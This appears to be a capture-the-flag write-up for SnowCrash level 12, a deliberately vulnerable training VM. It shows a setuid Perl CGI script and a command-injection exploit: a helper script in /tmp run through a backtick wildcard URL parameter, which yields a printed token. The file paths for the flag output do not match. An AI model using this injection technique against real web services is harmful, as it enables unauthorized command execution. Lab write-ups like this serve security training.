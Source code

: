 # Level 12

</br></br>

## check file level 12
```zsh
level12@SnowCrash:~$ ls -al
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
-r-x------  1 level12 level12  675 Apr  3  2012 .profile
level12@SnowCrash:~$ ./level12.pl 
Content-type: text/html

..level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```
Étant donné que c'est un CGI, il est nécessaire de créer un script

</br></br>

## make CGI file
```zsh
level12@SnowCrash:~$ vim /tmp/GETFLAG
level12@SnowCrash:~$ cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag
level12@SnowCrash:~$ chmod +x /tmp/GETFLAG
```

</br></br>

## execute
connect to 
> http://192.168.56.101:4646/?x=`/*/GETFLAG`

```zsh
level12@SnowCrash:~$ cat /tmp/flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
level12@SnowCrash:~$ su level13 
Password: 
level13@SnowCrash:~$ 
```